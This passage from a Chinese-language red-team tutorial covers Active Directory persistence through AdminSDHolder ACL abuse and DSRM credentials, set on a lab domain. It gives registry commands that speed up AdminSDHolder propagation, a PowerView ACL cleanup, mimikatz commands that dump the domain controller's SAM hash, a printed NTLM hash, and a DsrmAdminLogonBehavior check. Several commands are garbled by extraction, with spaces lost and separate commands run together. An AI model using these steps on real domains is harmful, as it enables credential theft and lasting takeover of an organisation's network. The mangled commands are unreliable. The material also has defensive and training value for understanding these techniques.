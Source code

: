 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192545.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192546.png)

默认会等待60分钟，可以通过修改注册表来设置为60秒后触发。

    
    
    reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency/t REG_DWORD /d 1/f

![]()

## 3.4 恢复

恢复触发时间

    
    
    reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency/t REG_DWORD /d 120/f

取消jack用户对adminSDHolder的权限

    
    
    Remove-DomainObjectAcl-TargetSearchBase"LDAP://CN=AdminSDHolder,CN=System,DC=redteam,DC=local"-PrincipalIdentity jack -RightsAll-Verbose

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192547.png)

# 0x04 DSRM凭证

每个DC内部都有一个本地管理员账户，在该机器上拥有管理员权限。

## 4.1 获取本地管理员hash

    
    
    token::elevatelsadump::sam

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816192547.png)

得到hash为：

    
    
    852a844adfce18f66009b4f14e0a98de

## 4.2 检查是否工作

如果注册表项的值为0或者不存在，需要将其设置为2。

检查key是否存在并且获取值：

    
    
    Get-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior

如果不存在则创建值为2的键：
